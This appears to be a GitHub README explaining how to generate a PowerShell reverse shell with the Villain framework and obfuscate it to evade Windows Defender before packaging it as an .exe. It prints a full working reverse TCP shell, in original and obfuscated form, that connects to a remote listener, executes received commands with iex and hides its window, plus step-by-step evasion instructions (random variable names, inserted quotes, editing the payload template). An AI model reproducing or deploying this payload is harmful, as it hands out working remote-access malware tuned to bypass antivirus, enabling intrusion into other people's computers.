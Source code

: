 After installing Villian on your Kali, You cd into it villian dir type "python3 Villian.py" type "help generate", type "generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0" this would generate a script for you but it'll be blocked by your windows defender or anti virus. attached within is a picture of the generated script and modified version. n/b: once you've done these steps, the listeners would be open, all you have to do is copy the script and convert it to a .exe file

it wont work but then the script has been created.

To modify the script, change every variable name to a random alphanumeric character e.g every "$client" can be "#njn4kjnn4" Do that for every variable.. also check my script to see how i added single quotes in randoms areas to0.. Now if you repeat the steps above, it'll keep generating scripts that would be blocked by windows defender. so here's the thing go back to the villian folder and paste this codes "mousepad Core/payload_templates/windows/netcat/powershell_reverse_tcp.py" it should take you to a file which generates the codes.. see image in this repo for better understanding..


// Modified codes
 Start-Process $PSHOME\powershell.exe -ArgumentList {$h6eyegd6etq = N''ew-Object Sys''tem.Net.Soc''kets.TC''PClient('192.168.61.131',4443);
 $xmie839jss = $h6eyegd6etq.GetStream();[byte[]]$jnklakms88wx = 0..65535|%{0};
 while(($i = $xmie839jss.Read($jnklakms88wx, 0, $jnklakms88wx.Length)) -ne 0){;
 $jdjbc77y3k = (New-Object -TypeName Sys''tem.Text.ASCIIE''ncoding).GetString($jnklakms88wx,0, $i);
 $smiw392poksm = (iex $jdjbc77y3k 2>&1 | Out-String );$ndu3h2799298s = $smiw392poksm + 'PS ' + (p''wd).Path + '> ';
 $jdkjeiji3kuw82oi2 = ([text.encoding]::ASCII).GetBytes($ndu3h2799298s);$xmie839jss.Write($jdkjeiji3kuw82oi2,0,$jdkjeiji3kuw82oi2.Length);
 $xmie839jss.Flush()};$h6eyegd6etq.Close()} -WindowStyle Hidden

 //Original Codes

 "Start-Process $PSHOME\\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);
 $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
 $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
 $stream.Flush()};$client.Close()} -WindowStyle Hidden"

